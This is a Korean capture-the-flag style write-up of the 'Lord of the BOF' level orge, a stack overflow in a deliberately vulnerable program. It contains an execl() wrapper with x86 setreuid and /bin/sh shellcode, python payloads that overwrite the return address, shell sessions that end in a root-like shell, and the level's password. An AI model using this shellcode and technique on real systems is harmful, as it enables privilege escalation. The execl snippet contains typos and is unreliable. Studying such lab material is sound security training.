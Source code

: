 ```yaml
---
title: "BOF - Lv.8 orge (풀이 봄)"
excerpt: "Lv.8 orge"
toc: true
toc_sticky: true
categories:
  - BOF
tags:
  - stack buffer overflow
  - c언어 execl() 함수
---
```


## 1. Source Code
```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
```

## 2. Vulnerability
코드 정리를 하면 인자는 1개밖에 못줌 **(argv[2] 사용불가)**. 인자의 길이는 최대 48, 환경변수 사용 불가, 인자랑 버퍼 값 모두 0으로 초기화시킴.  
execl 함수를 사용하여 풀 수 있음. 
```c
#include <usistd.h>

int execl(const char *path, const char *argv[0],~~argv[n],(char *)0)

path에 지정한 경로명의 파일을 실행하며 argv[0]~argv[n]을 인자로 전달함. 관례적으로 argv[0]에는 실행파일명을 지정함.  
execl함수의 마지막 인자로는 인자의 끝을 의미하는 NULL 포인터( (char*)0 )을 지정해야 함.  
path에 지정하는 경로명은 절대 경로, 상대 경로 모두 사용 가능 함.
출처 : [https://bbolmin.tistory.com/35](https://bbolmin.tistory.com/35)
// ex) 
// execl("/bin/ls, "ls', "-al", 0);  
```
**컴파일하여 파일을 생성할 때 원본 파일명과 길이를 맞춰줘야 실제 파일로 공격했을 때 스택의 주소가 바뀌지 않음.** 
## 3. Solution
풀이: [https://ddubucker.tistory.com/entry/BOF%EC%9B%90%EC%A0%95%EB%8C%80-LEVEL8-orge-troll?category=57181](https://ddubucker.tistory.com/entry/BOF%EC%9B%90%EC%A0%95%EB%8C%80-LEVEL8-orge-troll?category=57181)  

우선 execl을 실행해주는 실행파일을 생성해야 함. 
```c
// execl.c
#include <stdio.h>
#include <unistd.h>
int main(int argc, char *argv[]) {
        char shellcode[]="\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80";
        char filename[100];     // execl 함수의 path 부분
        strcpy(filename,argv[1]);       // ./troll 이 들어갈꺼임.
        execl(filename,shellcode,argv[2],0);    // ./troll에 argv[0]으로 shellcode, argv[1]으로 execl실행파일의 argv[2] 을 줄꺼임.
        return 0;
}
```
그 다음 troll.c 코드를 복사하여 마지막에 argv[0]의 주소를 출력해주는 코드를 넣고 컴파일하여 실행파일을 만들어줌. **(실제파일명과 길이 같게 해줘야 함)**  
테스트 파일에 해주면 argv[0]의 주소가 출력되고 (혹시 모르니 2,3번정도 더 해주면 좋음) argv[0]주소로 바꿔서 다시 해주면 쉘을 딸 수 있음.
```
[orge@localhost orge]$ ./execl ./testt `python -c 'print "A"*44+"BBB\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB▒
argv[0] : 0xbffffc2c
Segmentation fault (core dumped)
-----------------------------------------------------------------
                        주소 변경 후
-----------------------------------------------------------------
[orge@localhost orge]$ ./execl ./testt `python -c 'print "A"*44+"\x2c\xfc\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,▒▒▒
bash$
```
실제파일에도 해주면 됨.
```
[orge@localhost orge]$ ./execl ./troll `python -c 'print "A"*44+"\x2c\xfc\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA,▒▒▒
bash$ my-pass
euid = 508
aspirin
```
my-pass : aspirin